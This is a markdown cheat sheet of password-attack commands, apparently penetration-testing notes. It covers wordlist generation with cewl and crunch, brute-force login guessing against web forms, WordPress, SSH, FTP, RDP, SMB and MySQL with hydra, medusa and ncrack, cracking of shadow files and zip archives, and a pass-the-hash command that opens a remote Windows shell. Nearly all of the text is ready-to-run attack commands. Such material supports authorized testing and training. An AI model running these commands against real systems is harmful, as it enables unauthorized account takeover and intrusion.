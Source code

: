 # Password Attacks

- [Lists](#lists)
- [Guessing](#guessing)
- [Cracking](#cracking)


## Lists

### Generate Password List
```
cd /opt/wordhound && python Main.py wordhound
cewl -d 2 -m 5 -w words.txt $site 2>/dev/null
```
### Then MANGLE with John
```
john --wordlist=words.txt --rules --stdout > mangled_words.txt
```

### Spiderfoot
```
python ./sf.py && firefox hxxp://127.0.0.1:5001/
```

### Wordlist of passwords 6 characters long containing specific characters
```
crunch 6 6 0123456789ABCDEF -o list.txt
```

### Wordlist using pre-defined character sets
```
crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha -o mixedalpha.txt
```

### Wordlist with pattern such as abc$%#123
```
crunch 8 8 -t ,@@^^%%% |more
```

## Guessing

### Password Guessing
     medusa -h $ip -u admin -P password-file.txt -M http -m DIR:/admin -T 20 http
     medusa -H hosts -C usersandhashes -M smbnt -m PASS:HASH | grep "Access Allowed" smb
     wfuzz -c -z file,/root/wordlist.txt -hs Invalid -hs incorrect -d "log=FUZZ&pwd=aaaa" http://$ip/path.php
     ncrack -v -f --user admin -P passwords rdp://$ip,CL=1 rdp
     patator mysql_login user=root password=FILE0 0=/root/passes.txt host=$ip -x ignore:fgrep='denied' mysql dictionary attack

### Guess an HTTP form with a field named "key"
```
hydra $ip http-form-post "/kzMb5nVYJw/:key=^PASS^:invalid key" -l "" -P passwords.txt -t 10 -w 30 -o hydra-http.txt
hydra $ip http-form-post "/wordpress/wp-login.php:log=^USER^&pwd=^PASS^:incorrect" -l "admin" -P /usr/share/wordlists/rockyou.txt -t 10 -w 30 -o hydra-http.txt
```
```
hydra -s 22 -l demonslayer -P /usr/share/wordlists/rockyou.txt 10.0.2.5 ssh
ncrack -p 22 --user root -P passwords -T5 $ip ssh
```
```
hydra -l elly -e nsr 92.168.1.135 ftp
ncrack -u root -P passwords -T 5 $ip -p 21 ftp
hydra -l admin -P password-file.txt -v $ip ftp ftp
hydra -L users -P passwords -f -u $ip -s 21 ftp ftp
```

## Cracking

### Crack Shadowfile
```
unshadow passwd shadow > unshadow.txt
john -–single unshadow.txt
john --show unshadow.txt
```

### Crack Hash
```
firefox crackstation.net &
firefox onlinehashcrack.com &
firefox hashkiller.co.uk &
john jhashes.txt -wordlist=/usr/share/wordlists/rockyou.txt
```
```
pth-winexe -U WIN-PAQJG3GR43J/Administrator%aad3b435b51404eeaad3b435b51404ee:54d99af9cebee2444c1684ac33dadb1e //192.168.38.161 cmd
```

### Crack Zip File
```
fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u Whistler.zip
fcrackzip -D -u -p bfforzip.txt ~/Downloads/t0msp4ssw0rdz.zip
```
